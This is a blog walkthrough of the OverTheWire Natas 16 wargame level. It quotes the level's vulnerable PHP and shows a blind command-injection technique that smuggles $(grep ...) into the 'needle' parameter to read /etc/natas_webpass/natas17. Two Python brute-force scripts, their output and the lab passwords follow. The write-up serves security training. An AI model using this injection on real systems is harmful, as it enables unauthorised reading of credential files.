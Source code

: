 ```yaml
---
layout: post
title: "OverTheWire: Natas 16"
date: 2016-11-22 12:00:00
share: true
comments: true
---
```


```php
<pre>  
<?  
$key = "";  
  
if(array_key_exists("needle", $_REQUEST)) {  
    $key = $_REQUEST["needle"];  
}  
  
if($key != "") {  
    if(preg_match('/[;|&`\'"]/',$key)) {  
        print "Input contains an illegal character!";  
    } else {  
        passthru("grep -i \"$key\" dictionary.txt");  
    }  
}  
?>  
</pre>  
```

  
The source code shows that many characters can't be used, yet following the theme of the previous challenges, we can inject code...  

![15]({{ site.baseurl}}/images/15.png)

Unfortunately, it seems that injecting code with base64 encoded strings won't work, I tried something simple like `$(base64 -d <<< YQo=)` didn't work. Another way is using boolean based injection, just like our previous example! For that to work, we need to find a way to answer our question. One way is the fact that it shows data if substring exists, otherwise it's empty.  


Using that logic, we'll be interrogating the server:

Question: Does `/etc/natas_webpass/natas17` contain the letter a?  
Input: `doomed$(grep a /etc/natas_webpass/natas17)`
Output if Yes: _empty_
Output if No: `doomed`

Let's get our filtered character set first:

```python
import requests  
from requests.auth import HTTPBasicAuth  
  
auth=HTTPBasicAuth('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')  
  
filteredchars = ''  
allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'  
for char in allchars:  
 r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=doomed$(grep ' + char + ' /etc/natas_webpass/natas17)', auth=auth)  
   
 if 'doomed' not in r.text:  
  filteredchars = filteredchars + char  
  print(filteredchars)  
```

Next, we'll be using regex again to get the exact password (posting entire code):  

```python
import requests  
from requests.auth import HTTPBasicAuth  
  
auth=HTTPBasicAuth('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')  
  
filteredchars = ''  
passwd = ''  
allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'  
for char in allchars:  
 r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=doomed$(grep ' + char + ' /etc/natas_webpass/natas17)', auth=auth)  
   
 if 'doomed' not in r.text:  
  filteredchars = filteredchars + char  
  print(filteredchars)  
  
for i in range(32):  
 for char in filteredchars:  
  r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=doomed$(grep ^' + passwd + char + ' /etc/natas_webpass/natas17)', auth=auth)  
    
  if 'doomed' not in r.text:  
   passwd = passwd + char  
   print(passwd)  
   break  
```    

  
Output:
```
b  
bc  
bcd  
bcdg  
bcdgh  
bcdghk  
bcdghkm  
bcdghkmn  
bcdghkmnq  
bcdghkmnqr  
bcdghkmnqrs  
bcdghkmnqrsw  
bcdghkmnqrswA  
bcdghkmnqrswAG  
bcdghkmnqrswAGH  
bcdghkmnqrswAGHN  
bcdghkmnqrswAGHNP  
bcdghkmnqrswAGHNPQ  
bcdghkmnqrswAGHNPQS  
bcdghkmnqrswAGHNPQSW  
bcdghkmnqrswAGHNPQSW3  
bcdghkmnqrswAGHNPQSW35  
bcdghkmnqrswAGHNPQSW357  
bcdghkmnqrswAGHNPQSW3578  
bcdghkmnqrswAGHNPQSW35789  
bcdghkmnqrswAGHNPQSW357890  
8  
8P  
8Ps  
8Ps3  
8Ps3H  
8Ps3H0  
8Ps3H0G  
8Ps3H0GW  
8Ps3H0GWb  
8Ps3H0GWbn  
8Ps3H0GWbn5  
8Ps3H0GWbn5r  
8Ps3H0GWbn5rd  
8Ps3H0GWbn5rd9  
8Ps3H0GWbn5rd9S  
8Ps3H0GWbn5rd9S7  
8Ps3H0GWbn5rd9S7G  
8Ps3H0GWbn5rd9S7Gm  
8Ps3H0GWbn5rd9S7GmA  
8Ps3H0GWbn5rd9S7GmAd  
8Ps3H0GWbn5rd9S7GmAdg  
8Ps3H0GWbn5rd9S7GmAdgQ  
8Ps3H0GWbn5rd9S7GmAdgQN  
8Ps3H0GWbn5rd9S7GmAdgQNd  
8Ps3H0GWbn5rd9S7GmAdgQNdk  
8Ps3H0GWbn5rd9S7GmAdgQNdkh  
8Ps3H0GWbn5rd9S7GmAdgQNdkhP  
8Ps3H0GWbn5rd9S7GmAdgQNdkhPk  
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq  
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9  
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9c  
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw  
```

Natas 17 password is: `8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw`
